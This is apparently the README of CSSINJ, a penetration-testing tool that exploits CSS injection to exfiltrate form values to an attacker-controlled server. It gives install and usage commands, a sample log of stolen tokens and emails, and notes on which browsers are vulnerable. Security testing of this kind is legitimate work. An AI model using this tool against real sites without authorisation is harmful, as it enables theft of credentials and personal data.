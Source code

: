 ---

# CSSINJ  

```
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|
```

## About  

**CSSINJ** is a penetration testing tool that exploits [**CSS injection vulnerabilities**](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection) to exfiltrate sensitive information from web applications. This tool is designed for security professionals to assess the security posture of web applications by demonstrating how CSS can be used to extract data covertly.  


## Installation  

To install and set up **CSSINJ**, run the following commands:  

```bash
git clone https://github.com/DonAsako/CSSinj.git
cd CSSinj
python3 -m venv venv  
source venv/bin/activate
python3 -m pip install -r requirements.txt
```

Now you’re ready to use **CSSINJ**! 🎯  

## Usage  

```bash
python3 CSSINJ.py [-h] -H HOSTNAME -p PORT -i IDENTIFIER
```

### Options  

| Option                 | Description                                 |
|------------------------|---------------------------------------------|
| `-h, --help`           | Show help message and exit                  |
| `-H, --hostname`       | Attacker hostname or IP address             |
| `-p, --port`           | Port number of the attacker                 |
| `-i, --identifier`     | CSS identifier (CSS selector) to extract data |
| `-d, --details`        | Show detailed logs of the exfiltration process, including extracted data. |

### Example  

```bash
~ python3 CSSINJ.py -H 127.0.0.1 -p 5005 -i input
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 02:40:55] 🛠️ Attacker's server started on 127.0.0.1:5001
[2025-03-11 02:40:56] 🌐 Connection from ::1
[2025-03-11 02:40:56] ✅ The value exfiltrated from input is : MySecretToken123
[2025-03-11 02:40:56] ✅ The value exfiltrated from input is : admin@example.com
[2025-03-11 02:40:56] ✅ The value exfiltrated from input is : admin
```

## Browser-Specific Behavior

The success of CSS injection attacks using @import depends on the browser's handling of CSS imports:
- Chromium-based browsers (Chrome, Edge, Brave, etc.) allow recursive CSS imports and will process the injected styles, making them vulnerable to exfiltration techniques using @import.

- Firefox, however, handles @import differently:
  - Unlike Chromium-based browsers, Firefox processes all @import rules before applying any styles.
  - As a result, the attack fails because the browser never processes the CSS selectors, preventing data exfiltration.
  - This behavior causes an infinite loop where the browser keeps waiting for a CSS update that never happens.

This difference in behavior makes Chromium-based browsers more susceptible to CSS injection exfiltration, while Firefox provides better protection against such attacks.

## Todo
- [ ] Add injection parameters
- [ ] Implement automatic detection of CSS injection vulnerabilities
- [ ] Add an option to save results to a file
- [ ] Add custom payload
- [ ] Allow multiple CSS selectors for simultaneous extraction

## Disclaimer  

This tool is intended **only for ethical hacking and security research**. **Unauthorized use on systems without explicit permission is illegal**. The developer **is not responsible** for any misuse of this tool.  

## Author  

**CSSINJ** was developed by **Asako**.  
